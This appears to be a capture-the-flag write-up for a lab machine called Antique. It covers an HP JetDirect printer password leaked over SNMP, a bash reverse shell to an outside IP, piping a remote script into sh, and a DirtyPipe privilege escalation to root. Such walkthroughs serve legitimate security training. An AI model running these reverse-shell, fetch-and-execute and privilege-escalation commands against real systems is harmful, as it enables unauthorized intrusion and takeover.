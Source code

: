 # Antique

### Challenge: FullPWN

### Tools: Nmap, telnet, SNMP

Starting off with our nmap scan we find ports 23 and 161.

```console
└──╼ [★]$ nmap -sC -A -p 161,23 10.129.86.189
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-11 21:36 BST
Nmap scan report for 10.129.86.189
Host is up (0.012s latency).

PORT    STATE  SERVICE VERSION
23/tcp  open   telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
161/tcp open   snmp     SNMPv1 server (public)
```

If we try logging into telnet we can see we need a password. luckily HP jetDirect has a vulnerability associated with SNMP.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```
Running SNMP walk shows its a printer and confirms the relation to telnet. next we change the command a bit to get back a password.

```
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Converting that hex string gives us the password "P@ssw0rd@123!!123" now we can try loggin into telnet.

```console
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```
Nice now we are in as lpadmin and can get the user flag! Next we need to figure out how to privlege escalate.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> id
Err updating configuration
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> 
```
```console
> exec cat user.txt
e8b892894bb1678349dd26804cc892bf
```
Set up a listner and then we can execute this bash shell to give us a pretty good shell. Now we are going to run linpeas, I had issues with the telnet shell but after creating this new shell I was able to get and run it much easier.

```console
└──╼ [★]$ nc -lvnp 6789
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6789
Ncat: Listening on 0.0.0.0:6789
```
```console
> exec bash -c 'bash -i >& /dev/tcp/10.10.14.93/1234 0>&1'
```
We are goin to use these commands taken from the linpeas github site.

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
linpeas outputs alot of information but these 3 CVE are most notable. It also mentions cups 1.6.1 but I did not go that route.

```console
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
```

After testing all 3 I finally had some luck with this one. https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit The other were giving me issues and breaking my shell.

So we are going to navigate to /tmp and since we cannot get files on the system we can just copy and paste the exploit into our own file using ```echo 'EXPLOIT GOES HERE' > exploit.c```

I confirm the file is created.

```console
lp@antique:/tmp$ ls
ls
exp
exp.c
exploit.c
f
passwd.bak
solve.py
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-logind.service-8gv78i
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-timesyncd.service-tXY3Ah
tmux-7
vmware-root_872-2697532841
```
Then I compile and run it.

```console
lp@antique:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
lp@antique:/tmp$ ./exploit
./exploit
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
lp@antique:/tmp$ su root
su root
Password: aaron
```

The exploit works and we get the flag!!!

```console
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
3573f881d294e079a4d1141e1e8c1626
```

This is not the only method. I'm sure the other CVE's could have worked and The Cups 1.6.1 read file from root exploit is also confirmed to work. Also there was another version of the same CVE that I used that nearly worked but it wanted me to input a password that I did not have. Luckily I saw this one that came with a password.

GG
